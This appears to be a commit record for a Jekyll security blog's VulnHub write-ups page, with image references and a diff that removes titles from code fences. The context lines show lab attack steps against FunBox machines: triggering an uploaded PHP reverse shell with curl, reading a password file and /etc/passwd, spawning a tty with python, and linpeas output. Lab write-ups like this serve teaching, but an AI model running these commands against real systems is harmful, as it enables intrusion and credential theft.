

Before and after one commit to laughtersec/laughtersec.github.io, a Jekyll site: the page built from pages/vulnhub-writeups.md, in a window 1280 px wide and 1400 px high, scrolled down 6532 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update vulnhub-writeups.md

````diff
--- a/pages/vulnhub-writeups.md
+++ b/pages/vulnhub-writeups.md
@@ -61,7 +61,7 @@ http://funboxeasy/store/admin_edit.php?bookisbn=978-1-49192-706-9 -> Changing th
 
 After uploading the book, start a listener and go to http://funboxeasy/store/index.php to catch the shell.
 
-```shell title:"reverse shell"
+```shell
 $ cat /home/tony/password.txt
 ssh: yxcvbnmYYY
 gym/admin: asdfghjklXXX
@@ -73,7 +73,7 @@ gym/admin: asdfghjklXXX
 SSH using tony's credentials
 ## Privilege Escalaltion
 
-```shell title:"linpeas.sh"
+```shell
 ══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                       ╚════════════════════════════════════╝
 ╔══════════╣ SUID - Check easy privesc, exploits and write perms
@@ -262,7 +262,7 @@ After editing, we can upload it to `mini.php`. It should reflect after uploading
 
 Starting a listener, we access the resource.
 
-```shell title:"Accessing the resource"
+```shell
 curl http://funboxeasyenum/php-reverse-shell.php
 ```
 
@@ -282,12 +282,12 @@ $
 
 ## Privilege Escalation
 
-```shell title:"Spawn tty shell"
+```shell
 $ python3 -c 'import pty;pty.spawn("/bin/bash")'
 www-data@funbox7:/$
 ```
 
-```shell title:"linpeas.sh output"
+```shell
 <...>
 ╔══════════╣ Readable files belonging to root and readable by me but not world readable
 -rw-r----- 1 root www-data 525 Sep 18  2020 /etc/phpmyadmin/config-db.php
@@ -297,7 +297,7 @@ www-data@funbox7:/$
 <...>
 ```
 
-```shell title:"/etc/passwd"
+```shell
 www-data@funbox7:/$ cat /etc/passwd
 cat /etc/passwd
 root:x:0:0:root:/root:/bin/bash
````
